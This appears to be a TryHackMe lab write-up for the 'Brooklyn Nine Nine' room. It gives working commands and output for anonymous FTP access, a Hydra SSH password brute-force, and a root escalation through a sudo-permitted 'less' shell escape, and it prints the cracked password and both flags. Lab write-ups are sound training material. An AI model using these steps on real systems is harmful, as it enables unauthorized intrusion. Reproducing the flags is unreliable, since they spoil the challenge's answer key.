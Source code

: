 # Room Information

Room link: https://tryhackme.com/room/brooklynninenine

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 6/29/2023

# Scanning and Enumeration
> Port Scanning Using Nmap 
1. Started up this room’s machine
2. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt` to perform a network scan to scan for open ports while utilizing default scripts (**-sC**) and version detection (**-sV**) to identify services, as well as their versions, and vulnerabilities on the target system, and then redirect the results into a text file
3. `cat {FILENAME1}.txt` to output the scan results from the previous command
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.169.224 > PortScan.txt

```
```bash

```

#
> Scanning the FTP Server
4. `ftp Anonymous@{TARGET IP}`
```bash
┌──(kali㉿kali)-[~]
└─$ ftp Anonymous@10.10.169.224              
Connected to 10.10.169.224.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
5. `ls -a`
6. `get {FILE1}.txt`
7. `exit`
```bash
ftp> ls -a
229 Entering Extended Passive Mode (|||21935|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
```bash
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||24115|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |***********************************************************************|   119        1.30 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.66 KiB/s)
```
```bash
ftp> exit
221 Goodbye.
```
8. `ls`
9. `cat {FILE1}.txt`
```bash
┌──(kali㉿kali)-[~]
└─$ ls
 note_to_jake.txt
```
```bash
┌──(kali㉿kali)-[~]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

# Vulnerability Identification
> Brute Forcing Using Hydra
10. `hydra -l {USER} -P {WORDLIST PATH} ssh://{TARGET IP}`
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l jake -P rockyou.txt ssh://10.10.169.224
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-29 08:24:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.169.224:22/
[22][ssh] host: 10.10.169.224   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-29 08:25:41
```

# Vulnerability Exploitation
> Connecting Using SSH
11. `ssh {USER}@{TARGET IP} -p 22`
```bash
┌──(kali㉿kali)-[~]
└─$ ssh jake@10.10.169.224 -p 22                
The authenticity of host '10.10.169.224 (10.10.169.224)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.169.224' (ED25519) to the list of known hosts.
jake@10.10.169.224's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
12. `ls /`
13. `ls /home`
14. `ls /home/holt`
15. `cat /home/holt/{USER TEXT FILE}`
```bash
jake@brookly_nine_nine:~$ ls /
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
```
```bash
jake@brookly_nine_nine:~$ ls /home
amy  holt  jake
```
```bash
jake@brookly_nine_nine:~$ ls /home/holt
nano.save  user.txt
```
```bash
jake@brookly_nine_nine:~$ cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

# Post Exploitation
> Privilege Escalation
16. `sudo -l`
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
17. `firefox "https://gtfobins.github.io/"

![]()

18. `sudo less /etc/profile`
```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
```

![]()

20. `!/bin/sh`
 
![]()

21. `whoami`
22. `ls /root`
23. `cat /root/{ROOT TEXT FILE}`
```bash
# whoami
root
```
```bash
# ls /root
root.txt
```
```bash
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

**Room completed!**

![]()

# Command History

# Dissecting Some Commands

# Contributions
This writeup was made by Jonmar Corpuz, founder of **KnowCybersecurity** (www.knowwwcybersecurity.com)


Socials:
* TryHackMe ID: https://tryhackme.com/p/mtlfriends
* LinkedIn: https://www.linkedin.com/in/jonmar-corpuz-12771a234/



